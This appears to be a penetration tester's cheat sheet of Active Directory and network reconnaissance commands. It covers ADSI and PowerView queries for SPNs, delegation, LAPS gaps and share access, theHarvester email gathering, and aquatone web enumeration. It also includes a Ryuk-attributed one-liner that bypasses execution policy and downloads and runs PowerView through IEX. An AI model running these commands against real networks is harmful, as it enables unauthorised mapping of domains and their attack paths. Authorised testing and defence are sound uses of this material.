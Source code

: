 # Discovery



### Retrieve Group Membership for User

```powershell
Get-ADPrincipalGroupMembership "USERNAME" | Select name
```

### AD Enumeration via ADSI `DirectorySearcher`

#### Computer/User Objects

```powershell
([adsisearcher]'(&(objectCategory=Computer))').FindAll();
([adsisearcher]'(&(objectCategory=User))').FindAll();
```

#### SPNs

```powershell
([adsisearcher]"(&(&(servicePrincipalName=*) (UserAccountControl:1.2.840.113556.1.4.803:=512)) (!(UserAccountControl:1.2.840.113556.1.4.803:=2)))").FindAll();
```

Or

```powershell
$s = New-Object DirectoryServices.DirectorySearcher([ADSI]"");
$s.PageSize = 2000; 
$s.Filter = "(servicePrincipalName=*)";
$s.FindAll();
```

### Unconstrained delegation

```powershell
([adsisearcher]"(&(&(objectCategory=person)(objectClass=user)) (!userAccountControl:1.2.840.113556.1.4.803:=524288))").FindAll();
```

### Local Administrator Password Solution (LAPS)

Retrieve computers that are not configured with LAPS

```powershell
Get-ADComputer -Credential $cred -Server BURMAT.LOCAL -Filter {ms-Mcs-AdmPwd -notlike "*"} | Export-CSV -Path C:\temp\no_laps.csv;
```

### LDAP with PowerShell

#### Domain Users and Computers

```powershell
$users = ([adsisearcher]"(&(objectClass=user)(!userAccountControl:1.2.840.113556.1.4.803:=2))").FindAll();
foreach ($u in $users) { 
    $u.Properties.samaccountname | Out-File C:\users-and-computers.txt -Append;
}
```

Extracting computers from the output:

* `Get-Content  C:\users-and-computers.txt  | Select-String "$" | out-file C:\computers.txt -append`

Extracting domain users from the output:

* `Get-Content  C:\users-and-computers.txt  | Select-String "$" -NotMatch | out-file C:\users.txt -append`

## PowerSploit

### Discovering Domain Controllers

```powershell
Get-DomainComputer -Credential $cred -Server dc01.burmat.local -Domain burmat.local -SearchBase "LDAP://OU=Domain Controllers,DC=BURMAT,DC=LOCAL" | Export-Csv -Path C:\domain_controllers.csv
```

### Domain Computers

```powershell
Get-ADComputer -Filter * -Server dc01.burmat.local | export-csv -Path C:\temp\domain_computers.csv
```

### Unconstrained Delegation (Other than DCs)

```powershell
Get-DomainComputer -Credential $cred -Server dc01.burmat.local -Domain burmat.local -Unconstrained | Export-Csv -Path C:\unconstrained_deleg_machines.csv
```

### Allowed to Delegate

```powershell
Get-DomainUser -Credential $cred -Server dc01.burmat.local -Domain burmat.local -AllowDelegation -AdminCount | Export-Csv -Path C:\allowed_to_deleg.csv
```

### Gather User Descriptions

```powershell
Get-DomainUser -Credential $cred -Server dc01.burmat.local -Domain burmat.local -Properties SAMAccountName,Description | Select-Object SAMAccountName,Description | Export-CSV -Path C:\user_descriptions.csv
```

### Enumerate Domain Network Shares

```powershell
Find-DomainShare -ComputerName fs01.domain.local -ComputerDomain domain.local -CheckShareAccess
```

Authenticated with custom credentials:

```powershell
$secpassword = ConvertTo-SecureString 'Password123$' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('DOMAIN\username', $secpassword)
Find-DomainShare -Domain dir.svc.accenture.com -Credential $cred
```

Looping a list of hostnames:

```powershell
foreach ($h in $smb_hosts) {  find-domainshare -Credential $cred -computername "$h" -computerdomain burmat.local -server dc1.burmat.local -CheckShareAccess; }
```

#### Specific TTP for Ryuk

```powershell
powershell.exe -exec bypass -Command "&{[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Get-NetSubnet; Get-NetComputer}"
```

## theHarvester

An open-source intelligence (OSINT) gathering tool, that will tap into many difference APIs to gather data for you. GitHub: [https://github.com/laramies/theHarvester](https://github.com/laramies/theHarvester)

Installation is a PITA. Put your API keys into the api-keys.yaml file in the root of the directory

#### Email Address Gathering:

Getting a list of email addresses from i[ntelx.io:](http://intelx.io/)

```sh
python3 theHarvester.py -d contoso.com -b intelx >> intelx-contoso.com.txt
```

If you are doing multiple domains, you can use the following bash one-liner, where `domains.txt` is a list of domain names to search:

```bash
while read d; do python3 theHarvester.py -b intelx -d $d -f "th-$d"; sleep 1; done < domains.txt
```

Clean up the output to just be emails with the following, if you have problems:

```sh
grep -i -o '[A-Z0-9._%+-]\\+@[A-Z0-9.-]\\+\\.[A-Z]\\{2,4\\}' intelx-contoso.com.txt
```

<details>

<summary>Sample theHarvers API Configuration File</summary>

This goes in `~/.theHarvester/api-keys.yaml` for Kali

```
apikeys:
  bevigil:
    key:

  binaryedge:
    key:

  bing:
    key:

  bufferoverun:
    key:

  censys:
    id:
    secret:

  criminalip:
    key:

  fullhunt:
    key:

  github:
    key:

  hunter:
    key:

  hunterhow:
    key:

  intelx:
    key:

  netlas:
    key:

  onyphe:
    key:

  pentestTools:
    key:

  projectDiscovery:
    key:

  rocketreach:
    key:

  securityTrails:
    key:

  shodan:
    key:

  tomba:
    key:
    secret:

  virustotal:
    key:

  zoomeye:
    key:
```

</details>

## Web Enumeration

### aquatone

Found here: [GitHub - michenriksen/aquatone: A Tool for Domain Flyovers](https://github.com/michenriksen/aquatone)

#### **Basic Usage**

```bash
cat hosts.txt | aquatone -ports small -out scans/aquatone -threads 10 -screenshot-timeout 50000 -chrome-path /usr/bin/chromium
```

#### **Nmap Scan Results**

```bash
cat nmap/tcp_web.xml | aquatone -nmap -screenshot-timeout 50000 -out scans/aquatone -threads 10 -chrome-path /usr/bin/chromium
```

#### Using a Proxy via Burp

(Assuming Burp is listening to localhost:8080):

* `-proxy http://127.0.0.1:8080`

<details>

<summary>Built-In Port Lists &#x26; Aliases</summary>

* `small: 80, 443`

<!---->

* `medium: 80, 443, 8000, 8080, 8443 (same as default)`

<!---->

* `large: 80, 81, 443, 591, 2082, 2087, 2095, 2096, 3000, 8000, 8001, 8008, 8080, 8083, 8443, 8834, 8888`

<!---->

* `xlarge: 80, 81, 300, 443, 591, 593, 832, 981, 1010, 1311, 2082, 2087, 2095, 2096, 2480, 3000, 3128, 3333, 4243, 4567, 4711, 4712, 4993, 5000, 5104, 5108, 5800, 6543, 7000, 7396, 7474, 8000, 8001, 8008, 8014, 8042, 8069, 8080, 8081, 8088, 8090, 8091, 8118, 8123, 8172, 8222, 8243, 8280, 8281, 8333, 8443, 8500, 8834, 8880, 8888, 8983, 9000, 9043, 9060, 9080, 9090, 9091, 9200, 9443, 9800, 9981, 12443, 16080, 18091, 18092, 20720, 28017`

</details>

## Network&#x20;

### ARP

```
arp -a -N [interface]
```





